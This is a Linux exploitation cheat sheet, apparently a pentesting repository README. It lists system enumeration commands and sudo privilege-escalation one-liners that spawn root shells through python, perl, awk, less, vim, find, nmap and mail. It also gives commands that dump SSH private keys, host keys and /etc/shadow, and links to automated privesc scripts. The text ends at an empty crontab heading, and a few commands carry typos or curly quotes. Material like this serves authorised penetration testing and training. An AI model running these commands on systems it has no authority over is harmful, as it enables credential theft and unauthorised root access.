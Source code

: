 # Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration

<https://github.com/rebootuser/LinEnum>

<https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py>

<http://pentestmonkey.net/tools/audit/unix-privesc-check>

<https://raw.githubusercontent.com/swarley7/linuxprivchecker/master/linuxprivchecker.py>

## Sudoers - Privesc

##### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### Vim
```
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash
```

##### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### Nmap
```
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```


## Crontab - Privesc

